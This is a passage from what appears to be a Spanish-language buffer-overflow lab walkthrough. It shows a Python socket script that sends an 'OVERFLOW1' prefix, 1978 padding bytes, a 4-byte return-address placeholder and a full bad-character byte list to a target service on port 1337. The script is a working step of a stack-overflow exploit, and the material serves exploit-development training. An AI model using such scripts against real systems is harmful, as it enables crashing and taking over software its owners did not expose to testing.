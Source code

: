 ```buffer = "A"*1978 + "B"*4```

<img src="bytearray.txt.png">

Copiaremos la cadena generada para luego enviarla.

```py
#!/usr/bin/python3 

from pwn import *

if len(sys.argv) < 2:
    print("\n[!] Uso: python3 %s <IP>\n" % sys.argv[0])
    sys.exit(1)

# Variables globales
ipAddress = sys.argv[1]
rport = 1337
timeout = 5
prefijo = "OVERFLOW1 " # <- campo a inyectar 

badchars=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

if __name__ == "__main__":
    buffer = "A"*1978 + "B"*4 + badchars # <- Las "C" fueron reemplazadas por los badchars
    try:      
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        s.connect((ipAddress, rport))
        data = s.recv(1024)
        payload = (prefijo + buffer)
        s.send(payload.encode("latin-1"))
    except: 
        print("Error de conexion")
        sys.exit(1)
```
